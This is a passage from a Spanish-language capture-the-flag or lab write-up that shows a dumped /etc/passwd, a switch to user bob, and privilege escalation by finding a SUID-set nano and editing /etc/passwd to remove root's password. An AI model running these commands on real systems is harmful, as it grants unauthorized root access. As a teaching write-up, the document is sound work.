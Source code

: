 ```bash
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
bob:x:1000:1000:bob,,,:/home/bob:/bin/bash
james:x:1001:1001:james,,,:/home/james:/bin/bash
www-data@aee0f4d201ac:/$ stty rows 62 columns 248
www-data@aee0f4d201ac:/$ su bob
Password:
bob@aee0f4d201ac:/$
```

Siendo `bob` y buscando **binarios** con SUID o que pudiesen ser aprovechados para obtener el `root` se encontró el bin `nano`, de manera que se intentó directamente modificar el `/etc/passwd` y remover la **x** del usuario root para así quitarle la autenticación por contraseña, con el tratamiento de la tty no hubo inconvenientes al momento de hacer la manipulación con `nano`

```bash
bob@aee0f4d201ac:/$ find / -perm -4000 2>/dev/null
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/nano
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
bob@aee0f4d201ac:/$ nano /etc/passwd
bob@aee0f4d201ac:/$ nano /etc/passwd
bob@aee0f4d201ac:/$ su root
root@aee0f4d201ac:/#
```

Luego de haber modificado el archivo se utilizó el `su root` y no hubo **input** alguno para ingresar la contraseña, automáticamente se accedió al user `root` y con esto ya se alcanzó el control sobre la máquina.

_Written by **kur0bai**_
